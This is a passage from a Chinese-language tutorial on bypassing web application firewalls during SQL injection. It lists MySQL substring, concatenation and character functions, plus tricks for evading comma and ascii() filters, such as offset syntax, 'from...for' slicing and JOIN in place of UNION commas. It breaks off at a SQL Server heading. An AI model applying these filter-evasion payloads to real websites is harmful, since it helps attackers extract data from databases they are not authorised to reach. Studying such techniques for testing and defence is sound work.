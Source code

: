 ```
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
Lpad(version(),1,1)
Rpad(version(),1,1)
Left(version(),1)
reverse(right(reverse(version()),1)

```

###### (2)字符串连接函数

```
concat(version(),'|',user());
concat_ws('|',1,2,3)

```

###### (3)字符转换

Ascii(1) 此函数之前测试某云waf的时候被过滤了，然后使用`ascii (1)`即可

```
Char(49)
Hex(‘a’)
Unhex(61)

```

##### 3)过滤了逗号

###### (1)limit处的逗号：

```
limit 1 offset 0

```

###### (2)字符串截取处的逗号

mid处的逗号：

```
mid(version() from 1 for 1)

```

###### (3)union处的逗号：

通过join拼接。

![enter image description here](http://drops.javaweb.org/uploads/images/2acf4d038e853bcd55a2995991a533b51b7b29e4.jpg)

#### 5.3.2 sqlserver数据库

##### 1）常见过滤位置

